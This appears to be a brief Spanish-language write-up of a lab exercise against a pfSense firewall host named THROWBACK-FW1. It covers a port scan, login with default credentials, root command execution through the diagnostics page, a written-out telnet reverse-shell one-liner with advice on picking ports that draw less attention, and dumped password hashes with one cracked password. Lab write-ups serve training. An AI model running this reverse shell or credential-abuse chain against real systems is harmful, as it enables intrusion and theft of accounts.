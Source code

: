 # THROWBACK-FW1

## Initial Scan
```
22/tcp  open  ssh      OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|_  256 e8:75:f3:79:a4:dd:f3:25:9b:2b:33:54:dc:86:59:af (ED25519)
53/tcp  open  domain   (generic dns response: REFUSED)
80/tcp  open  http     nginx
|_http-title: Did not follow redirect to https://10.200.27.138/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/http nginx
|_http-title: pfSense - Login
| ssl-cert: Subject: commonName=pfSense-5f099cf870c18/organizationName=pfSense webConfigurator Self-Signed Certificate
| Subject Alternative Name: DNS:pfSense-5f099cf870c18
| Not valid before: 2020-07-11T11:05:28
|_Not valid after:  2021-08-13T11:05:28
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
| tls-nextprotoneg: 
|   h2
|_  http/1.1
```
## Enum
### Web Server
Las creds por defecto de pfsense funcionan para entrar

## Exploit
En el endpoint de diagnostics podemos ejecutar comandos en el sistema, si ejecutamos id veremos que es nuestro dia de suerte
```
uid=0(root) gid=0(wheel) groups=0(wheel)
```
Spawneamos una reverse shell, vamos a usar sobre todo puertos comunes para las reverse shell al fin de no crear trafico muy sospechoso en ele firewall
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet IP 443 > /tmp/f
```

## Post Explotation
### Login.log
```
Last Login 8/9/2020 15:51 -- HumphreyW:1c13639dba96c7b53d26f7d00956a364
```
Crackeamos la pass securitycenter

### /etc/spwd.db
Aquí encontraremos los hashes de varios usuarios
```
admin:$2y$10$q81moODbYy1KXoLJxIoc1uXlpBKeSCiieaKiNxjPqTLmNZY3n/Fga
ec2-user:$2y$10$zae.EdVMDyWWVJGAQEOtdO7fTAp.6BWOeFnSYf7qV45rjsnKg0DEC
root:$2y$10$q81moODbYy1KXoLJxIoc1uXlpBKeSCiieaKiNxjPqTLmNZY3n/Fga
```
